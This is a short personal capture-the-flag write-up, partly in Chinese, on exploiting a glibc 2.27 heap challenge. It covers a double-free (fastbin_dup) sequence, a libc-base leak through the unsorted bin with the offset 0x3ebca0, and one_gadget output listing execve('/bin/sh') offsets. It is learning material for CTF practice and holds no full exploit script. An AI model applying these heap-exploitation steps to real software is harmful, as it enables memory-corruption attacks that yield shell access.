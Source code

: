 # 1.0 Challenge
1. HOW TO LEAK libc?
2. how to build payload
3. heap where to inject?
4. double free Attack flow ?
# 2.0 Analysis
为什么会做这个 是 from [[PWN -- pwn4 QL -- UAF ORW]] 因为要学 tcache 2.27 的版本 怎样leak?
先从简单开始 so 找到这个
他的用法在 [[TUTORIAL]] 2.0 fastbin_dup 就是 
malloc A B C 
free A B A
malloc A B
可以通过改 出来的 A  做还在 free list `[A]` 一单
再 malloc 出奇迹

基本的function
add: size
edit: index, data
delete: index
show: index
# 3.0 Solution

## 3.1 HOW TO LEAK libc?
然后我神奇找到这个东西 dbg 出来的
under gdb -> bins
< 500 是 tcachebins > 500 是  unsortedbin
```
pwndbg> bins
tcachebins
0x130 [  1]: 0x1bd4260 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
empty
largebins
empty
```

然后进了 unsorted bin 只要show 就会出leak 
2.27 版本 - 0x3ebca0 就是 libc base

## 3.1 how to build payload?
拿到 libc base so ?????
可以用one gadget 
随便选一个 0x4f29e 0x4f2a5 0x4f302 0x10a2fc
```
┌──(kali㉿kali)-[~/Desktop/CTF/wangding/bookmanager]
└─$ one_gadget libc.so.6 
0x4f29e execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv

0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
```